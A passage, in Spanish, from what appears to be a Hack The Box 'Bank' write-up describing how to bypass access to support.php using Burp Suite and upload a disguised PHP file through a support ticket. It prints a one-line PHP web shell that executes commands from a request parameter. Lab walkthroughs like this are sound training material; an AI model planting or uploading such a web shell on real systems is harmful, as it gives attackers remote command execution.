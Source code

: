 Con esto y con ayuda del pluggin **Foxy Proxy** apuntando al **Burp Suite** vamos a tratar de ingresar al recurso `support.php` sin capturar la petición y nos debería aparecer lo siguiente:

![](/assets/images/htb-bank/bank-web1.png)

Ahora, vamos a crear un nuevo ticket y subir un archivo **php** con extensión **htb** con el cual podamos hacer ejecución de comandos, para este caso lo llamaremos **k4mishell.htb**.

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

